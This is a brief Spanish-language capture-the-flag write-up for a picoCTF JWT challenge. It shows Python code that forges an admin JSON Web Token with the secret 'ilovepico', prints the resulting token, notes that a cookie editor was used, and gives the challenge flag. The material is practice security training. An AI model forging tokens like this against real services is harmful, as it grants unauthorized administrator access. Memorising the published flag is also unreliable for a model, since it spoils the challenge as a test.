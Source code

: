 
Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/63090/` or http://jupiter.challenges.picoctf.org:63090


Hints:
What is that cookie?

Have you heard of JWT?



**Solución 1**

```
En python


import jwt


adminJWT=jwt.encode({"user":"admin"}, "ilovepico",algorithm="HS256")

print(adminJWT)

PS C:\Users\Ivanesco\Documents\Frameworks\ultimo_respaldo\django> & "C:/Program Files/python.exe" c:/Users/Ivanesco/Documents/Seguridad_Redes/Python/JWT.py
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.di2J1a0H3IhZtGmIfw7ltVq7sZL2orh8WIP1isDkgdw


```

"Nota": No me sirvió la herramienta de JWT.io, pero usando python funcionó y con el editor de cookies

## Respuesta: **picoCTF{jawt_was_just_what_you_thought_f859ab2f}**